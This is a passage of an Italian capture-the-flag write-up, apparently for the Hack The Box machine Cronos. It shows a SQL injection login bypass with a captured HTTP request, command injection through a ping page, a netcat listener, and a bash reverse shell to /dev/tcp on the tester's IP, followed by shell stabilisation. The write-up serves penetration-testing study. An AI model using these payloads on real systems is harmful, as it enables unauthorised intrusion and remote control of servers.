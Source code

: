 ``` bash

[02:55:55] [PAYLOAD] admin' ORDER BY 1-- -
[02:55:55] [TRAFFIC OUT] HTTP request [#49]:
POST / HTTP/1.1
Host: admin.cronos.htb
User-agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-language: en-US,en;q=0.5
Accept-encoding: gzip, deflate
Content-type: application/x-www-form-urlencoded
Origin: http://admin.cronos.htb
Referer: http://admin.cronos.htb/
Cookie: PHPSESSID=9v3dbpgun41d85godbjd56j3a4
Upgrade-Insecure-Requests: 1
Content-length: 55
Connection: close

username=admin%27%20ORDER%20BY%201--%20-&password=admin

got a 302 redirect to 'http://admin.cronos.htb:80/welcome.php'. Do you want to follow? [Y/n] 
```

Abbiamo un redirect ad "/welcome.php" vuoldire che il payaload della richiesta ha funzionato

Entriamo con il payload " admin' ORDER BY 1-- -" e ci troviamo di fronte una paigna 
che esegue due comandi " traceroute " e " ping " 
Proviamo a vedere se possiamo eseguire altri comandi ovvero una Command Execution " & whoami "
ci dice che siamo uenti " www-data", questo ci suggerisce possiamo eseguire comandi  e che abbiamo FINALMENTE UNA COMMAND EXECUTION

# EXPLOITATION

 Per ottenere una shell ci mettiamo in ascolto con nc sulla nostra macchina 
 
 ``` bash
┌──(root㉿kali)-[/home/kali/htb/cronos]
└─# nc -lnvp 443              
listening on [any] 443 ...
```

Aggiungiamo nella prompt dei comandi
presente nella pagina "welcome.php" il codice di una revshell che punti 
al nostro ip e alla porta alla quale siamo in ascolto 

" & bash -c 'bash -i >& /dev/tcp/10.10.14.53/443 0>&1'"

Otteniamo cosi una shell

con which python3 sopriamo che è presete python3 possiamo eseguire un update della shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'


^Z
stty raw -echo; fg
export SHELL=bash
export TERM=xterm-256color
```
Abbiamo una shell interattiva e stabile
www-data@cronos:/var/www/admin$ 
